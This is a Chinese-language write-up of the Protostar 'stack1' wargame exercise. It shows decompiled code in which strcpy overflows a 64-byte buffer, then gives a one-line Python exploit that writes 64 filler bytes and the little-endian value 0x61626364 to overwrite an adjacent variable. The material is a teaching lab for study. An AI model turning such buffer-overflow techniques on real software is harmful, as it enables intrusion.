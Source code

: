 ```yaml
---
title: Protostar_stack1
updated: 2023-11-07 07:27:02Z
created: 2023-06-26 03:09:04Z
---
```


运行程序，如下

![bfabf3b206c7f681d552ac916bc009a2.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/bfabf3b206c7f681d552ac916bc009a2.png)

**checksec**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/d3ae0530430fd8b497a72ade0e9fa2a2.png" alt="d3ae0530430fd8b497a72ade0e9fa2a2.png" width="430" height="218" class="jop-noMdConv">**

查看反编译代码

```asm
void main(char **argv, char **envp)
{
    undefined auStack84 [64];
    int32_t iStack20;
    
    if (argv == (char **)0x1) {
        errx(1, "please specify an argument\n");
    }
    iStack20 = 0;
    strcpy(auStack84, envp[1]);
    if (iStack20 == 0x61626364) {
        puts("you have correctly got the variable to the right value");
    } else {
        printf("Try again, you got 0x%08x\n", iStack20);
    }
    return;
}
```

本题目相较于stack0,增加一个检测`(iStack20 == 0x61626364)`

**exp如下：**

**(0x61626364即abcd,要以小端序格式输入，adba --> \\x64\\x63\\x62\\x61)**

`` ./stack1 `python -c "print('A'*64+'\x64\x63\x62\x61')"` ``

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/c5a4931b42cb39cab0893683b1ca473b.png" alt="c5a4931b42cb39cab0893683b1ca473b.png" width="473" height="40">

&nbsp;

&nbsp;

&nbsp;

&nbsp;